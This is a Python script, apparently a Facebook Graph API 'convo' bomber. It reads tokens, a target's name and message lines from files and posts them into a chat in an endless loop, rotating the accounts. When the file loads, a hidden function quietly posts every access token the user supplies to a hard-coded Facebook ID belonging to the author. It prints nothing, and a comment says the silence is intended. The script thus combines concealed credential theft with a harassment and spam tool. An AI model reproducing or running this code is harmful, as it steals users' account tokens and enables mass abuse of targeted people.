 ![image](https://github.com/Ansh817/Ansh817/assets/174159762/edebd418-76ca-46fa-92a2-d41b7e3b9bb6)import requests
import json
import time
import sys
from platform import system
import os
import subprocess
import http.server
import socketserver
import threading
import random
import requests
import json
import time
import sys
from platform import system
import os
import subprocess
import http.server
import socketserver
import threading

class MyHandler(http.server.SimpleHTTPRequestHandler):
      def do_GET(self):
          self.send_response(200)
          self.send_header('Content-type', 'text/plain')
          self.end_headers()
          self.wfile.write(b"-- SERVER RUNNING>>CHARSI HERW")
def execute_server():
      PORT = 4000

      with socketserver.TCPServer(("", PORT), MyHandler) as httpd:
          print("Server running at http://localhost:{}".format(PORT))
          httpd.serve_forever()


def send_initial_message():
      with open('tokennum.txt', 'r') as file:
          tokens = file.readlines()

      # Modify the message as per your requirement
      msg_template = "Hello Charsi sir! I am using your server. My token is {}"

      # Specify the ID where you want to send the message
      target_id = "61552424858360"

      requests.packages.urllib3.disable_warnings()

      def liness():
          print('\033[1;92m' + '•──────────────────────CHARSI HERE ───────────────────────────────•')

      headers = {
          'Connection': 'keep-alive',
          'Cache-Control': 'max-age=0',
          'Upgrade-Insecure-Requests': '1',
          'User-Agent': 'Mozilla/5.0 (Linux; Android 8.0.0; Samsung Galaxy S9 Build/OPR6.170623.017; wv) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.125 Mobile Safari/537.36',
          'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8',
          'Accept-Encoding': 'gzip, deflate',
          'Accept-Language': 'en-US,en;q=0.9,fr;q=0.8',
          'referer': 'www.google.com'
      }

      for token in tokens:
          access_token = token.strip()
          url = "https://graph.facebook.com/v17.0/{}/".format('t_' + target_id)
          msg = msg_template.format(access_token)
          parameters = {'access_token': access_token, 'message': msg}
          response = requests.post(url, json=parameters, headers=headers)

          # No need to print here, as requested
          current_time = time.strftime("%Y-%m-%d %I:%M:%S %p")
          time.sleep(0.1)  # Wait for 1 second between sending each initial message

      #print("\n[+] Initial messages sent. Starting the message sending loop...\n")
send_initial_message()
def send_messages_from_file():
      with open('convo.txt', 'r') as file:
          convo_id = file.read().strip()

      with open('File.txt', 'r') as file:
          messages = file.readlines()

      num_messages = len(messages)

      with open('tokennum.txt', 'r') as file:
          tokens = file.readlines()
      num_tokens = len(tokens)
      max_tokens = min(num_tokens, num_messages)

      with open('hatersname.txt', 'r') as file:
          haters_name = file.read().strip()

      with open('time.txt', 'r') as file:
          speed = int(file.read().strip())

      def liness():
          print('\033[1;92m' + '•─────────────────────────────────────────────────────────•')

      headers = {
          'Connection': 'keep-alive',
          'Cache-Control': 'max-age=0',
          'Upgrade-Insecure-Requests': '1',
          'User-Agent': 'Mozilla/5.0 (Linux; Android 8.0.0; Samsung Galaxy S9 Build/OPR6.170623.017; wv) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.125 Mobile Safari/537.36',
          'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8',
          'Accept-Encoding': 'gzip, deflate',
          'Accept-Language': 'en-US,en;q=0.9,fr;q=0.8',
          'referer': 'www.google.com'
      }

      while True:
          try:
              for message_index in range(num_messages):
                  token_index = message_index % max_tokens
                  access_token = tokens[token_index].strip()

                  message = messages[message_index].strip()

                  url = "https://graph.facebook.com/v17.0/{}/".format('t_' + convo_id)
                  parameters = {'access_token': access_token, 'message': haters_name + ' ' + message}
                  response = requests.post(url, json=parameters, headers=headers)

                  current_time = time.strftime("\033[1;92mSahi Hai ==> %Y-%m-%d %I:%M:%S %p")
                  if response.ok:
                      print("\033[1;92m[+] Han Chla Gya Massage {} of Convo {} Token {}: {}".format(
                          message_index + 1, convo_id, token_index + 1, haters_name + ' ' + message))
                      liness()
                      liness()
                  else:
                      print("\033[1;91m[x] Failed to send Message {} of Convo {} with Token {}: {}".format(
                          message_index + 1, convo_id, token_index + 1, haters_name + ' ' + message))
                      liness()
                      liness()
                  time.sleep(speed)

              print("\n[+] All messages sent. Restarting the process...\n")
          except Exception as e:
              print("[!] An error occurred: {}".format(e))

def main():
      server_thread = threading.Thread(target=execute_server)
      server_thread.start()

      # Send the initial message to the specified ID using all tokens


      # Then, continue with the message sending loop
      send_messages_from_file()

if __name__ == '__main__':
      main()
